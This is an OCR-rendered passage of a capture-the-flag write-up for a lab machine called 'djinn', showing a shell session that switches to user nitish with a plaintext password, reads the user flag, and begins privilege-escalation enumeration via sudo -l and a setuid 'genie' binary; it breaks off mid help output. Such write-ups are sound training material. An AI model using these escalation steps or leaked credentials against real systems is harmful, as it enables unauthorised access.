 www-data\@djinn:/opt/80\$ su nitish

su nitish

Password: p4ssw0rdStr3r0n9

nitish\@djinn:/opt/80\$ cd /home/nitish

cd /home/nitish

nitish\@djinn:\~\$ ls

ls

user.txt

nitish\@djinn:\~\$ cat user.txt

cat user.txt

10aay8289ptgguy1pvfa73alzusyyx3c

Privilege Escalation (Rooute \#1)
---------------------------------

### Enumerating for Possible Escalation Vector.

nitish\@djinn:/opt/80\$ sudo -l

sudo -l

Matching Defaults entries for nitish on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User nitish may run the following commands on djinn:

(sam) NOPASSWD: /usr/bin/genie

It looks like nitish can run /usr/bin/genie as the user sam.

nitish\@djinn:/opt/80\$ ls -laht /usr/bin/genie

ls -laht /usr/bin/genie

\-rwsr-x--- 1 sam nitish 71K Nov 11 19:09 /usr/bin/genie

Let's check out the help for the executable.

nitish\@djinn:/opt/80\$ genie -h

genie -h

usage: genie [-h] [-g] [-p SHELL] [-e EXEC] wish

I know you've came to me bearing wishes in mind. So go ahead make your wishes.

positional arguments:

wish Enter your wish

optional arguments:
